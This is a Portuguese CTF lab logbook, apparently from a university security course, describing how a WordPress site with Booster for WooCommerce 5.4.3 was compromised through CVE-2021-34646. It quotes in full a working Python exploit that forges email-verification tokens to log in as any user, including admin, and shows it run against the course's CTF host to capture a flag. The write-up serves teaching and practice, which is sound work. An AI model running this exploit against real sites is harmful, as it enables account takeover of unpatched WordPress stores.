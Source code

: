 # LOGBOOK3 - Wordpress CVE

### Reconhecimento - Informações encontradas após utilizar o website
- **Versão do WordPress** - 5.8.1
  <br>
- **Plugins instalados e versões dos mesmos**:
    - WooCommerce plugin - 5.7.1
    - Booster for WooCommerce plugin - 5.4.3
      <br>
- **Possíveis utilizadores e nomes de utilizadores**:
    - admin
    - Orval Sanford

### Pesquisa por vulnerabilidades - Utilização de uma base de dados para descobrir a CVE
Utilizamos o website [Exploit Database](https://www.exploit-db.com) para descobrir com que vulnerabilidade estávamos a lidar e descobrimos que era a **CVE-2021-34646**.

Assim foi possível encontrar um script de python que era capaz de dar exploit a esta vulnerabilidade:
>1:
>Goto: https://target.com/wp-json/wp/v2/users/
>Pick a user-ID (e.g. 1 - usualy is the admin)
>
>2:
Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
>
>3:
>Check-Out  out which of the generated links allows you to access the system
>
>import requests,sys,hashlib
> 
>import argparse
> 
>import datetime
> 
>import email.utils
> 
>import calendar
> 
>import base64
>
>B = "\033[94m"
> 
>W = "\033[97m"
> 
>R = "\033[91m"
> 
>RST = "\033[0;0m"
>
>parser = argparse.ArgumentParser()
> 
>parser.add_argument("url", help="the base url")
> 
>parser.add_argument('id', type=int, help='the user id', default=1)
> 
>args = parser.parse_args()
> 
>id = str(args.id)
> 
>url = args.url
> 
>if args.url[-1] != "/": # URL needs trailing /
> 
>url = url + "/"
>
>verify_url= url + "?wcj_user_id=" + id
> 
>r = requests.get(verify_url)
>
>if r.status_code != 200:
> 
>print("status code != 200")
> 
>print(r.headers)
> 
>sys.exit(-1)
>
>def email_time_to_timestamp(s):
> 
>tt = email.utils.parsedate_tz(s)
> 
>if tt is None: return None
> 
>return calendar.timegm(tt) - tt[9]
>
>date = r.headers["Date"]
> 
>unix = email_time_to_timestamp(date)
>
>def printBanner():
> 
>print(f"{W}Timestamp: {B}" + date)
> 
> 
>print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
> 
>print("We need to generate multiple timestamps in order to avoid delay related timing errors")
> 
>print("One of the following links will log you in...\n")
>
>printBanner()
> 
>for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
>
>hash = hashlib.md5(str(unix-i).encode()).hexdigest()
>
>print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
>
>token='{"id":"'+ id +'","code":"'+hash+'"}'
>
>token = base64.b64encode(token.encode()).decode()
>
>token = token.rstrip("=") # remove trailing =
>
>link = url+"my-account/?wcj_verify_email="+token
>
>print(link + f"\n{RST}")


<p style='text-align: justify;'>
De forma a conseguirmos utilizar este script temos de o correr utilizando este comando "./exploit_CVE-2021-34646.py https://target.com/ 1" que neste caso seria "./50299.py http://ctf-fsi.fe.up.pt:5001 1", sendo o segundo elemento o link para o website e o terceiro elemento o id do utilizador ao qual conta queremos aceder (admin id = 1).

Com isto são gerados três links que nos permitem aceder a certas contas. Utilizando o link "http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOWEwYzQ3MzcwZGY5ODBhNDU5NTYwYWIzYTUxNTI0NGYifQ", somos redirecionados para o mesmo website mas desta vez estando dentro da conta de um admin. Ai conseguimos aceder a uma mensagem privada aonde é mencionada a flag:

**flag{please don't bother me}**
</p>
